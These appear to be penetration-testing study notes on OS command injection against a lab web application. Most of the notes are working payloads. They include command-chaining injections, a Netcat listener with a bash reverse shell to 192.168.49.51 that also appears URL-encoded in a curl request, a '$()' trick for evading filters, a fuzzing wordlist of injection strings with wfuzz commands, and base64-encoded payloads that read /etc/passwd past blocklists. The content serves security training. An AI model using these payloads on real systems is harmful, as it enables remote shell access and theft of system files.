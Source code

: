 ```shell
http://target:80/python/index.py?ip=127.0.0.1|id
```

Most operating systems allow users to run multiple commands together on one line. In the case of Linux, we can use the semicolon (;), the logical AND (&&), the logical OR (||), and even a single pipe character (|).

```shell
ls -ls
```

As expected, this lists files and directories. As an example of simple command chaining, we will add a semicolon to the end of the command (marking the end of a command in Linux) and follow it with id. This should execute the command sequentially.

```shell
ls -ls ; id
```

We can also use && to chain commands. In this case the second command will only run if the first exits without error:

```shell
whoami && hostname
```

Next, we use && again and note that if the first command fails, the second one won't run.

```shell
foobar && hostname
```

Alternatively, a logical OR (||) will only run the second command if the first fails.

```shell
whoami || id
```

In addition to the semicolon, which allows us to chain multiple commands together in one statement, another unique separator for Linux is the newline (\n), which exists in every HTTP request. Its hexadecimal value is 0x0A.

Finally, let's discuss some Linux-specific inline execution mechanisms. Considers these examples, which use the backtick (`) character and the $() null statement to "wrap" a command ("cmd").

```shell
`cmd`
```

```shell
$(cmd)
```

```shell
echo "This is an `whoami` echo statement"
```

```shell
echo "This is an $(whoami) echo statement"
```

We'll listen (bind) to the 0.0.0.0 interface (-l), request verbose output (-v), print numerical IP addresses and ports in all output (-n), and bind to port 9090 (-p 9090). Let's combine these arguments and run our listener.

```shell
nc -nlvp 9090
```

Now that we have our Netcat listener established, let's consider a sample payload.

```shell
http://target:80/nodejs/index.js?ip=127.0.0.1|bash -c 'bash -i >& /dev/tcp/192.168.49.51/9090 0>&1'
```

URL-encoded

```shell
curl "http://target/nodejs/index.js?ip=127.0.0.1|bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.51/9090+0>%261'"
```

A Null Statement Injection Bypass can be inserted between any characters of our choosing.

---
    This technique also works for more complex payloads like "nc -nlvp 9090", which becomes: n$()c -n$()lvp 9090
---

```shell
wh$()oami
```

```shell
http://target:80/php/blocklisted.php?ip=127.0.0.1;wh$()oami
```

We'll create the following wordlist as command_injection_custom.txt and place it in our home directory.

```txt
bogus
;id
|id
`id`
i$()d
;i$()d
|i$()d
FAIL||i$()d
&&id
&id
FAIL_INTENT|id
FAIL_INTENT||id
`sleep 5`
`sleep 10`
`id`
$(sleep 5)
$(sleep 10)
$(id)
;`echo 'aWQK' |base64 -d`
FAIL_INTENT|`echo 'aWQK' |base64 -d`
FAIL_INTENT||`echo 'aWQK' |base64 -d`
```

```shell
/usr/share/SecLists/command_injection_custom.txt
```

Our list includes an additional "bogus" string so we can guarantee a failed response length when fuzzing, or at least gain an interesting response, which we could render in our browser.

This is important because having a known response size when fuzzing a target endpoint is exceptionally useful when we're filtering our results for successful attempts (or verbose error messages at the very least).

```shell
wfuzz -c -z file,/usr/share/SecLists/command_injection_custom.txt --hc 404 http://target:80/php/blocklisted.php?ip=127.0.0.1FUZZ
```

We have a lot of failed attempts that give us a response length of 1156 bytes. Let's hide these requests by providing wfuzz with the parameter-value combination of --hh 1156.

```shell
wfuzz -c -z file,/usr/share/SecLists/command_injection_custom.txt --hc 404 --hh 1156 http://target:80/php/blocklisted.php?ip=127.0.0.1FUZZ
```

Let's load the payload of "|i$()d" from our Wfuzz output into our browser and note the response.

```url
http://target/php/blocklisted.php?ip=127.0.0.1|i$()d
```

Before we conclude, let's examine one other possible attack vector to bypass blocklisted strings entirely if a backtick (`) character is permitted. This can be achieved by using base64 encoding.

All we need to do is choose the payload we want, and echo it into the base64 binary on our attacking Kali Linux VM.

```shell
echo "cat /etc/passwd" |base64
```

```shell
echo "Y2F0IC9ldGMvcGFzc3dkCg==" |base64 -d
```

URL-encoded

```shell
echo%20%22Y2F0IC9ldGMvcGFzc3dkCg==%22%20|base64%20-d
```

```shell
http://target/php/blocklisted.php?ip=127.0.0.1;`echo%20%22Y2F0IC9ldGMvcGFzc3dkCg==%22%20|base64%20-d`
```

```shell
http://target/php/blocklisted_exercise.php?ip=127.0.0.1/ni$(Y2F0IC9ldGMvcGFzc3dkCg)d
```

# 🔄 Alternatives to `base64` Binary (Encode/Decode)

# ✅ Python (Preferred if available)
# Encode
python3 -c "import base64; print(base64.b64encode(open('input.txt','rb').read()).decode())"

# Decode
python3 -c "import base64; open('output.txt','wb').write(base64.b64decode(open('input.b64','r').read()))"

# ✅ OpenSSL
# Encode
openssl base64 -in input.txt -out output.b64

# Decode
openssl base64 -d -in output.b64 -out decoded.txt

# ✅ Perl
# Encode
perl -MMIME::Base64 -0777 -ne 'print encode_base64($_)' < input.txt

# Decode
perl -MMIME::Base64 -ne 'print decode_base64($_)' < input.b64

# ✅ BusyBox (if available)
# Encode
busybox base64 input.txt

# Decode
busybox base64 -d input.b64

